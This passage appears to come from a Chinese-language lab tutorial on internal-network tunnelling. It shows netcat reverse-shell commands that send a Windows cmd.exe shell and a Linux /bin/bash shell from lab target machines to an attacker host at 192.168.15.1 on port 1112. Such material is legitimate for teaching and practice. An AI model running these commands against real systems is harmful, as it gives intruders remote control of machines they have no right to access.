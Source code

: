 ![image-20241019211850001](内网隧道代理技术/image-20241019211850001.png)		

```
通过控制win7靶机，执行反弹shell命令,当连接到1112端口，就会执行把bin/bash给到该攻击机
nc64.exe -e C:\Windows\System32\cmd.exe 192.168.15.1 1112
```

![image-20241019211902148](内网隧道代理技术/image-20241019211902148.png)	

```
或者说控制linux靶机，执行反弹shell命令，连接到1112端口
nc -e /bin/bash 192.168.15.1 1112
```

![image-20241019212043734](内网隧道代理技术/image-20241019212043734.png)	

![image-20241019212054674](内网隧道代理技术/image-20241019212054674.png)	

